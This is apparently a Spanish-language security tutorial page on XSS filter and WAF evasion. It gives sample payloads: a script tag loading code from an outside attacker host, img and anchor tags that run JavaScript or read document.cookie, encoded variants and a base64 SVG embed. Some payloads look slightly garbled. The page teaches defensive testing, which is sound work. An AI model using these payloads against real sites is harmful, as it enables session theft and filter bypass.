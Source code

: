 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS evasion

Se pueden utilizar numerosas técnicas para evadir las protecciones XSS y los productos de seguridad, como los firewalls de aplicaciones web (WAF). En lugar de enumerar todas las diferentes técnicas de evasión descritas por OWASP, esta sección revisa algunas de las técnicas más populares.

Primero, echemos un vistazo a una inyección de JavaScript XSS que sería detectada por la mayoría de los filtros XSS y soluciones de seguridad:

```
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```

El siguiente ejemplo muestra cómo la etiqueta HTML **img** se puede utilizar de varias maneras para evadir potencialmente los filtros XSS:

```
  <img src="javascript:alert('xss');"> <img src=javascript:alert('xss')> <img src=javascript:alert("XSS")> <img src=javascript:alert ('xs')>
```

También es posible utilizar otras etiquetas HTML maliciosas (como etiquetas), como se demuestra aquí:

```
  <a onmouseover="alert(document.cookie)">Este es un enlace malicioso</a> <a onmouseover=alert(document.cookie)>Este es un enlace malicioso</a>
```

Un atacante también puede utilizar una combinación de referencias de caracteres HTML hexadecimales para evadir potencialmente los filtros XSS, como se demuestra aquí:

```
  <img src=javascript& #x3Aalert('XSS' x29>
```

La codificación US ASCII puede eludir muchos filtros de contenido y también puede usarse como técnica de evasión, pero solo funciona si el sistema transmite en codificación US ASCII o si se configura manualmente. Esta técnica es útil contra WAF. El siguiente ejemplo demuestra el uso de la codificación ASCII de EE. UU. para evadir WAF:

```
¼script¾alerta(¢XSS¢)¼/script¾
```

**El siguiente ejemplo muestra un ejemplo de una técnica de evasión que implica el uso de etiquetas de inserción** HTML para incrustar un archivo de gráficos vectoriales escalables (SVG):

```
  <EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm cvMjAwMC9zdmciIHhtbG5zOnhsa W5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3 hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU 9InRleHQvZWNtYXNjcmlwdC I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" tipo="image/svg+xml" AllowScriptAccess="always"></EMBED>
```
